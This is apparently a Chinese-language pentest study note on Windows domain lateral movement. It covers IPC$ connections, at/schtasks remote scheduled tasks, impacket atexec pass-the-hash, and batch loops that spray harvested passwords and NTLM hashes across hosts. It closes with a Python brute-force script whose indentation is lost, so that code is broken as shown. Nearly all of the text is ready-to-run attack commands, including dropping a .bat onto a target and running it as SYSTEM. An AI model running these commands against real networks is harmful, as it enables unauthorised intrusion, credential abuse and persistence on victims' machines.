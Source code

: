 **案例1-横向渗透明文传递at&schtasks**

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？这里仅介绍at&schtasks命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。
获取到某域主机权限->minikatz得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典-》尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令
利用流程
1. 建立IPC链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4. 删除IPC链接

```BASH
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.bat 1.bat  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.bat /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
```
### 建立IPC常见的错误代码

```
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
```
**建立IPC失败的原因**
```
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误
```


**[at] & [schtasks]**
```bash
#at < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.21\c$  #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\add.bat    #添加计划任务

#schtasks >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.32\c$ #复制文件到其C盘
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建adduser任务对应执行文件
schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除adduser任务

#案例2-横向渗透明文HASH传递atexec-impacket
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe god/administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```

**案例3-横向渗透明文HASH传递批量利用-综合**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测HASH对应IP回显版
```

**案例4-横向渗透明文HASH传递批量利用-升级版**

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典能吃西瓜？
```
net use \\192.168.3.32\ipc$ admin!@#45 /user:god\dbadmin

#pip install pyinstaller
#pyinstaller -Ffuck_neiwang_001.py生成可执行EXE
```
使用该脚本去爆破用户密码
```PY
import os,time
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.29',
'192.168.3.30',
'192.168.3.31',
'192.168.3.33'
}

users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'vpnadm',
'webadmin'
}
passs={
    # 输入抓取的密码hash
'admin',
'admin!@#45',
'Admin12345'
}

for ip in ips:
for user in users:
for mima in passs:
exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
print('--->'+exec+'<---')
os.system(exec)
time.sleep(1)
```